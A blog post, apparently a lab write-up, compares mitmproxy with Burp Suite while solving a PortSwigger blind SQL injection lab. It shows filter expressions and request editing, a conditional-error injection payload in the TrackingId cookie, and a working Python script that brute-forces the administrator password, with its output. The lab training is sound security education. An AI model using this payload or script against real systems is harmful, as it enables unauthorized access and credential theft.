


PortSwigger made a powerful tool burpsuite for performing security testing of
web applications. in its community edition it includes tools like repeater,
decoder/encoder, burp intruder which helps in modifying http requests and study
its behaviour.
mitmproxy is a free opensource interactive https proxy. its features includes
intercepting HTTP & HTTPS requests, save http conversations for later replay
analysis, make scripted changes for http traffic using python
for whatever reason, i will try using mitmproxy to solve a blind sql inejection vulnerability using mitmproxy. the lab description goes like. the goal here is to try to solve this challenge by using mitmproxy and not burpsuite, python scripting is permitted of course.
Challenge description
This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs an SQL query containing the value of the submitted cookie. The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows. If the SQL query causes an error, then the application returns a custom error message. The database contains a different table called users, with columns called username and password. You need to exploit the blind SQL injection vulnerability to find out the password of the administrator user. To solve the lab, log in as the administrator user.
exploring mitmproxy
after setting up the browser, and opening mitmproxy i will make a get request to / using the browser.
looking at mitmproxy i see a lot of requests.

a lot of them are just images (svg,png,etc…). i don’t need those on my screen
so i will filter them using mitmproxy's filter expressions
just by pressing the f key, at the bottom it will prompt you to inter a filter expression.
i found the following
~c status code ~u regex URL ! unary not & and | or (...) grouping
i can filter the images by: set view_filter '!(~u /image)'

i still see a problem. i want to focus on just one domain the domain of the challenge. using the following solves the issue
set view_filter 'web-security-academy.net & !(~u /image)'
playing with it i found this to filter all unwanted requests.
~u web-security-academy.net & !(~u /image | ico | css)

you can intercept requests by pressing i and use filter expressions to
select which requests you want to intercept and which ones to ignore. by using
~q you intercept all request. but we don’t need that now so ignore this
now i will press z to clear all flows and make a new request with the
browser. i’ll select the first request.

let’s try to see if the cookie TrackingId=iubY1Hw83n9Ea9m2; is vulnerable to sqli.
i will just append a single quote to it at the end.
press e to edit the request and then press 1 to edit the cookies.

Cookie: TrackingId=iubY1Hw83n9Ea9m2'
after finishing press escape to return to the request and then press r to replay the request.
it did respond with error 505 internal server error

The goal of this blog post is not to write a writeup about how to exploit this blind sql vulnerability. its goal is to try using mitmproxy as an alternative to burpsuite and see it it makes that diffirence. you can read the solution here on portswigger web security academy.
after going through the challenge. to get the password you have this query where
xyz is your cookie and SUBSTR(password,1,1)='A' is guessing the password
character by character.
TrackingId=xyz'||(SELECT CASE WHEN SUBSTR(password,1,1)='A' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
in portswigger’s writeup they used burp intruder to automate the process. but unfortunately mitmproxy has no similar feature so i wrote python script to do it for me.
#!/usr/bin/env python
import requests, urllib3
from string import ascii_lowercase, digits
import time
urllib3.disable_warnings()
# your challenge url
url = "https://your-challenge-url.web-security-academy.net/"
proxies = {
"https": "http://127.0.0.1:8080"
}
req = requests.Session()
abc123 = ascii_lowercase + digits
# Your cookie here
headers = {"Cookie": "TrackingId=xyz"}
def make_query(c: str, count: int = 1) -> str:
return f"'||(SELECT CASE WHEN SUBSTR(password,1,{count})='{c}' THEN to_char(1/0) ELSE '' END FROM users WHERE username='administrator')||'"
pass_len = 20
def solve() -> str:
j = ''
count = 1
while len(j) != pass_len:
for i in abc123:
cookie = headers['Cookie']+make_query(j+i, count)
H = {"Cookie": cookie}
print(f"Trying: {H['Cookie']}")
x = req.get(url,
headers=H,
proxies=proxies,
verify=False)
if x.status_code == 500:
count += 1
j += i
print(f"[+] Found: {i}")
print(j)
continue
return j
print(f"administrator:{solve()}")i add this part to pass all the requests on mitmproxy to see how is everything going.
proxies = {
"https": "http://127.0.0.1:8080"
}the script output goes like
Trying: TrackingId=xyz'||(SELECT CASE WHEN SUBSTR(password,1,1)='a' THEN to_char(1/0) ELSE '' END FROM users WHERE username='administrator')||' Trying: TrackingId=xyz'||(SELECT CASE WHEN SUBSTR(password,1,1)='b' THEN to_char(1/0) ELSE '' END FROM users WHERE username='administrator')||' Trying: TrackingId=xyz'||(SELECT CASE WHEN SUBSTR(password,1,1)='c' THEN to_char(1/0) ELSE '' END FROM users WHERE username='administrator')||' [+] Found: c Trying: TrackingId=xyz'||(SELECT CASE WHEN SUBSTR(password,1,2)='cd' THEN to_char(1/0) ELSE '' END FROM users WHERE username='administrator')||' ... ... ... administrator:cwok4lewga8jbhkodnb6
now let’s see how mitmproxy is doing.

using a filter expression
~u web-security-academy.net & !(~u /image | ico | css) & ~c 500
adding ~c 500 to filter the status code

Conclusion
burpsuite
burpsuite is a very powerful tool with many features
- easy to use
- beginner friendly GUI
- has a lot of tools built-in
- it’s meant for web application security
- burp scanner (Professional edition)
mitmproxy
you can replace burpsuite with mitmproxy but you will have to give up many burp advantages. if you are going to use mitmproxy you will have to
- do everything manually
- write scripts to automate tasks
- Learn mitmproxy’s interface
- use other tools (like
sqlmapfor example) along side with mitmproxy to do automated scanning.